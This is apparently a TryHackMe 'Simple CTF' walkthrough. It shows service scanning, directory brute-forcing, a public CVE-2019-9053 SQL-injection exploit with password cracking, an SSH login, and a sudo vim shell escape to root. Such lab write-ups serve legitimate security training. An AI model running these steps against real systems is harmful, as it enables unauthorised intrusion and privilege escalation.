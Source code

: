 # [Simple CTF](https://tryhackme.com/room/easyctf)

## Deploy the machine and attempt the questions!

### How many services are running under port 1000?

### What is running on the higher port?

1. Running an nmap scan revealed two services running under port 1000. The scan also showed that SSH is running on a higher port

```Bash
nmap -sV <IP>
```

[SCREEN01]

### What's the CVE you're using against the application?

### To what kind of vulnerability is the application vulnerable?

1. Scanning with gobuster reveals the `/simple` endpoint, at the bottom of which we find `CMS Made Simple version 2.2.8`. A quick google search reveals CVE-2019-9053 exploit - SQL (sqli) Injection

```
gobuster dir -u http://<IP>:80 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,html,php
```

[SCREEN02]

[SCREEN03]

### What's the password?

1. Let's use the python script from [exploit-db](https://www.exploit-db.com/exploits/46635)

```Bash
python 46635.py -u http://<IP>:80/simple --crack -w /root/Desktop/Tools/wordlists/rockyou.txt
```

[SCREEN04]

### Where can you login with the details obtained

1. Looking back at the nmap results we can assume it is ssh

```Bash
ssh mitch@<IP>
python -c 'import pty; pty.spawn("/bin/bash")'
```

### What's the user flag?

1. The flag is right there in our starting directory

```Bash
cat user.txt
```

[SCREEN05]

### Is there any other user in the home directory? What's its name?

1. Check the `/home` directory

```Bash
ls /home
```

[SCREEN06]

### What can you leverage to spawn a privileged shell?

1. Let's check what commands we can run with sudo privileges

```Bash
sudo -l
```

[SCREEN07]

### What's the root flag?

1. Check [GTFOBins](https://gtfobins.github.io/gtfobins/vim/) for vim, and use the first command with sudo

```Bash
sudo vim -c ':!/bin/sh'
cat root/root.txt
```

[SCREEN08]
